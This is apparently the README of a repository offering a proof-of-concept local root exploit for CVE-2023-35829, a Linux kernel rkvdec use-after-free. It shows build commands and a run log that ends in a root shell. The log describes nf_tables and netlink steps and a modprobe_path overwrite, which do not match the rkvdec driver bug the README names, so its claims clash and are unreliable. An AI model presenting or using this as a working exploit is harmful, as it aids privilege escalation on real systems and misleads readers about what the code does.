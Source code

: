 # CVE-2023-35829-poc
CVE-2023-35829 Linux kernel  before 6.3.2.   
A use-after-free privilege escalation was found in rkvdec_remove in drivers/staging/media/rkvdec/rkvdec.c. 

# Usage

```
chris@experience:~/CVE-2023-35829-poc# make
cc -pthread -static -o poc obj/keyring.o obj/main.o obj/modprobe.o obj/netlink.o obj/nf_tables.o obj/simple_xattr.o obj/uring.o obj/util.o
strip poc
cc -o get_root get_root_src/get_root.c
rm -fr get_root
chris@experience:~/CVE-2023-35829-poc# ./poc
[+] CVE-2023-35829 PoC
[+] Second process currently waiting
[+] Get CAP_NET_ADMIN capability
[+] Netlink socket created
[+] Netlink socket bound
[+] Table table created
[+] Set for the leak created
[+] Set for write primitive created
[+] Leak succeed
[+] kaslr base found 0xffffffff9f000000
[+] physmap base found 0xffff910a00000000
[+] modprobe path changed !
[+] Modprobe payload setup
[?] waitpid
[?] sem_post
[+++] Got root shell, should exit?
# id
uid=0(root) gid=0(root) groups=0(root)
```
